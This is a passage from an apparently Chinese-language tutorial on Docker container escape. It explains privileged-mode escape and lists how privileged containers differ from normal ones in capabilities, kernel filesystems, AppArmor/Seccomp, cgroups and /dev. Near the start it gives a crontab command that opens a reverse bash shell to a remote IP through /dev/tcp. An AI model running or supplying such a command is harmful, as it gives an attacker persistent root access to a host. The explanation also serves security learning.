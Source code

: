 如此成功逃逸到宿主机中，也可直接反弹shell`echo '* * * * * bash -i >& /dev/tcp/192.168.198.128/8888 0>&1' >> /var/spool/cron/root`

![img](Docker逃逸.assets/v2-e5453e0367177cd23a9f28acef0f0dca_720w.webp)

## **privileged特权模式启动容器**

特权模式逃逸是一种最简单有效的逃逸方法，该漏洞的原理是宿主机使用root用户或使用sudo命令启动的容器时，docker管理员可通过mount命令将外部宿主机磁盘设备挂载到容器内部，获取对整个宿主机的文件读写权限，可直接通过chroot切换根目录、写ssh公钥和crontab计划等逃逸到宿主机。

### **特权模式与非特权模式的区别**

-  `Linux Capabilities`

1.  普通模式下容器内进程只可以使用有限的一些Linux Capabilities
2.  特权模式下的容器内进程可以使用所有的Linux Capabilities

- Linux敏感目录 1.  普通模式下，部分内核模块路径比如/proc下的一些目录需要阻止写入、有些又需要允许读写，这些文件目录将会以tmpfs文件系统的方式挂载到容器中，以实现目录mask的需求 2. 特权模式下，这些目录将不再以tmpfs文件系统的方式挂载

- 任何内核文件都是可读写 1. 普通模式下，部分内核文件系统（sysfs、procfs）会被只读的方式挂载到容器中，以阻止容器内进程随意修改系统内核 2. 特权模式下，内核文件系统将不再以只读的方式被挂载

- APPArmor和Seccomp

1.  普通模式下，可以通过配置APPArmor或Seccomp相关安全选项
2. 特权模式下，这些AppArmor或Seccomp相关配置将不再生效

-  cgroup读写

1.  默认情况下，只能以只读模式操作cgroup
2.  特权模式下，将可以对cgroup进行读写操作

- /dev

1.  普通模式下，容器内/dev目录下看不到节点/dev目录下特有的devices
2.  特权模式下，容器内的/dev目录会包含这些来自节点/dev目录下的那些内容

- SELinux
